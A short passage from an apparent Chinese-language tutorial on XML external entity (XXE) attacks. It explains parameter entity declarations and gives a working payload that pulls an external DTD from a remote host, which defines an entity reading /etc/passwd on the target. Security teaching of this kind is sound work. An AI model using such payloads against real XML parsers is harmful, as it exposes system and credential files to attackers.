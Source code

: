 ![](简析XXE/3.jpg)

### 参数实体声明
```xml
<!ENTITY % 实体名称 "实体的值">
or
<!ENTITY % 实体名称 SYSTEM "URI">
```
解析实体或者uri，进行xml解析，进而获得其中的变量  
```xml
<!DOCTYPE foo [
	<!ENTITY  % xxe SYSTEM "http://xss.kingkk.com/xxe" >
	%xxe;
]>
<root>
	<name>&evil;</name>
</root>
```
远程服务器的xxe中的内容
```xml
<!ENTITY evil SYSTEM "file:///etc/passwd" >
```
获取其中定义的evil值，并在被攻击机中使用  
![](简析XXE/3.png)

